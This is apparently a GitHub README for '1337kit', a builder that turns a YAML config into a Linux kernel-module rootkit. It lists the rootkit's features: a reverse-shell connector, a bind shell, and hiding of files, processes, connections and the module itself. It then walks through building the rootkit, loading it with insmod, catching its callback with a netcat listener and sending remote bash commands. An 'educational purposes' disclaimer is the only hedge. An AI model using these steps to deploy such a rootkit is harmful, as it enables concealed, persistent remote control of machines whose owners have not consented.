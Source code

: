 # 1337kit - LKM Rootkit Builder

![1337kit](images/1337kit.png)

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Hiding connections based on IPv4 in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector:
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
hide_ip:
    - "127.0.0.1"
    - "8.8.8.8"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --help
usage: builder.py [-h] [-c CONFIG] [-o [OBFUSCATE]]

Generate rootkit from yaml prescription

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Yaml prescription file
  -o [OBFUSCATE], --obfuscate [OBFUSCATE]
                        Enable rootkit symbols obfuscation

```

![builder](images/builder.png)

And rootkit will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* HIDE_IP
* SHOW_HIDDEN_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* UDP based hiding

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
